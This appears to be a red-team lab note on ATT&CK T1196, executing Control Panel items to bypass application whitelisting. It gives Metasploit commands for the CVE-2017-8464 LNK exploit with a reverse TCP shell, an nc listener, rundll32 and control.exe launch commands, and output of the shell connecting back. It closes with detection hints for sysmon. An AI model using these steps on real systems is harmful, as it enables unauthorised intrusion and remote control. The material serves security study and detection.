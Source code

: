 ```yaml
---
description: Control Panel Item code execution - bypass application whitelisting.
---
```


# T1196: Control Panel Item

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker" %}
```bash
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can see that the .cpl is simply a DLL with DllMain function exported:

![](../.gitbook/assets/lnk-dllmain%20%281%29.png)

A quick look at the dissasemble of the dll suggests rundll32 will be spawned and thread code injection may take place:

![](../.gitbook/assets/lnk-dissasm.png)

{% code-tabs %}
{% code-tabs-item title="victim" %}
```bash
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker" %}
```text
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note how rundll32 spawns a command prompt and establishes a connection back to the attacker -  these are signs that should raise suspicion when you come across something like this in your environment:

![](../.gitbook/assets/lnk-connection.png)

As always, sysmon logging can help find suspicious commandlines being executed in your environment:

![](../.gitbook/assets/lnk-sysmon%20%281%29.png)

## Bonus - Create Shortcut With PowerShell

```bash
$TargetFile = "$env:SystemRoot\System32\calc.exe"
$ShortcutFile = "C:\experiments\cpl\calc.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1196\",\"type\":\"link\",\"title\":\"Control Panel Items - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1060/T1060.md\",\"type\":\"link\",\"title\":\"redcanaryco/atomic-red-team\",\"description\":\"atomic-red-team - Small and highly portable detection tests based on MITRE\'s ATT&CK.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://github.com/fluidicon.png\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://avatars0.githubusercontent.com/u/6877001?s=400&v=4\",\"width\":400,\"height\":400,\"aspectRatio\":1}}" %}

